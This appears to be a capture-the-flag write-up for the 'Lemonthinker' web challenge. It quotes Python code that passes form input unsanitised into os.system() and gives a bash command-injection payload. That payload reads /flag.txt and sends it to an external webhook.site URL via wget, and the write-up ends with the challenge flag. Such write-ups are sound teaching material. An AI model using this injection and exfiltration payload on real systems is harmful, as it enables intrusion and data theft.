

# Lemonthinker

```
generate your lemonthinks here!
```

## Challenge

> TL;DR: Bash command injection.

The source code for this challenge isn't too long, which makes the glaring vulnerability even more obvious:

**Source**: `app/app.py`
```py
text = request.form.getlist('text')[0]
text = text.replace("\"", "")
filename = "".join(random.choices(chars,k=8)) + ".png"
os.system(f"python3 generate.py {filename} \"{text}\"")
```

That's right, the user-controlled variable `text` (coming from the HTTP parameter `text`) is being inserted directly into an `os.system()` function call. We can execute OS commands by wrapping them inside `$()`, such as `$(whoami)`.

Let's read the flag and exfiltrate to our external server. Send the following string in the 

```bash
$(cat /flag.txt | xargs -I{} wget "https://webhook.site/c6cf5fb0-9a87-439d-aa8c-4dfbb3a65fef/?flag={}")
```


:lemonthink: and the flag will be delivered 😎🚩



Flag: `rarctf{b451c-c0mm4nd_1nj3ct10n_f0r-y0u_4nd_y0ur-l3m0nth1nk3rs_d8d21128bf}`
